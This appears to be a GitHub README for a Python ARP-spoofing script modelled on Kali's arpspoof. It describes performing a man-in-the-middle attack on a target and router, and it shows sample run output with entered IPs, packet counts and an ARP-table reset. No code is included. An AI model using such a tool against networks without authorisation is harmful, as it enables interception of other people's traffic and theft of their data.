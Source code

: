 # arp-spoofing

This program will work just like an arpspoof command line utility in Kali Linux. It'll update the ARP packet sent and you can perform a man in the middle attack by providing a target and router IP. After providing a keyboard Interrupt, the program will Reset the arp tables of the victim and the router.



OUTPUT:


root@kali:~/arp_spoof# python3 arp_spoof.py 

Enter your target IP: 172.16.61.200

Enter your gateway IP: 172.16.61.2

[+] Packets sent: 14^C

[+] Detected Ctrl + C .... Resetting ARP Tables!

All Done!
